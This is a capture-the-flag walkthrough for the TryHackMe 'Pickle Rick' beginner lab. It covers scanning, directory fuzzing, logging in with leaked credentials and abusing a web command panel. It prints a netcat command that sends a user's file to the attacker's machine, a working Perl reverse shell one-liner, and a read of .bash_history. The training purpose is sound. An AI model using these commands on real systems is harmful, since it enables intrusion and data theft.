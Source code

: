 # Pickle Rick
This is a truly fun, easy box, great for beginners, and quite entertaining for 'Rick and Morty' fans.

![Pickle-Rick](../Images/thm_pickle-rick_1.png)

**Tools: nmap, dirsearch, netcat.**

Because TryHackMe's machines don't have specific IPs assigned to them (and I had to restart my instance during the CTF, thus changing its IP), I'll simply use \<targetIP> where you should put the target's IP.

We begin with the nmap scan:  
`nmap -Pn -sC -sV --min-rate=10000 <targetIP>`

![Pickle-Rick](../Images/thm_pickle-rick_2.png)

Ports 22 (SSH) and 80 (HTTP) are open. Taking a look at the webpage, we see the following:

![Pickle-Rick](../Images/thm_pickle-rick_3.png)

So we're tasked with finding 3 flags (ingredients). Looking at the page's source, we also see this:

![Pickle-Rick](../Images/thm_pickle-rick_4.png)

We'll save the username for later. Now we can run a fuzzer, such as dirsearch:  
`dirsearch -u http://<targetIP>`

![Pickle-Rick](../Images/thm_pickle-rick_5.png)
  
The robots.txt file shows us 'Wubbalubbadubdub'. The login.php brings us a login form, we can try to authenticate using the username we've just found, and maybe the string from the robots file as the password...
  
![Pickle-Rick](../Images/thm_pickle-rick_6.png)
  
We're able to login with those credentials. In the webpage we see a Command Panel. In the www-data user root directory, we can see a txt file containing a 'super secret ingredient', which we can read directly from the browser - this is our first ingredient.  
`http://<targetIP>/Sup3rS3cretPickl3Ingred.txt`

![Pickle-Rick](../Images/thm_pickle-rick_7.png)
  
For the next steps, keep in mind that the 'cat' command is disabled for this command panel, so we can't easily read the files. After some manual enumeration, I found the 'second ingredients' file at /home/rick, so I've managed to send this file to my VM through a quick netcat reverse shell.

In your machine start a netcat session:  
`nc -vnlp 9003 > file.txt`

![Pickle-Rick](../Images/thm_pickle-rick_8.png)

Then in the command panel:  
`/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'`

![Pickle-Rick](../Images/thm_pickle-rick_9.png)

Simply read the file.txt to grab the second ingredient.  
Using sudo -l shows us that we can run everything with 'sudo'.

![Pickle-Rick](../Images/thm_pickle-rick_10.png)

I've tried quite a few creative ways to grab the flag from the command panel, but nothing worked. I've decided to start a reverse shell.  
In your machine start a netcat session:  
`nc -vnlp 9003`

Then in the command panel, you can run this perl revshell (just change the IP to your VPN's IP):  
```
perl -e 'use Socket;$i="<yourIP>";$p=9003;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![Pickle-Rick](../Images/thm_pickle-rick_11.png)

Now with the reverse shell in our machine, we can spawn a fully interactive shell (for the sake of it, I always do this):  
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now, after some previous enumeration, I've seen that inside the /home/ubuntu there are some hidden files (which we can see by using the 'ls -la' command), one of them is the .bash_history, and if we read this file we'll be able to grab the 3rd ingredient.  
`cat /home/ubuntu/.bash_history`

Another way of doing this is by reading the txt file from the '/root' directory.

**That's all for this box!**  
Thanks for reading and keep hacking!
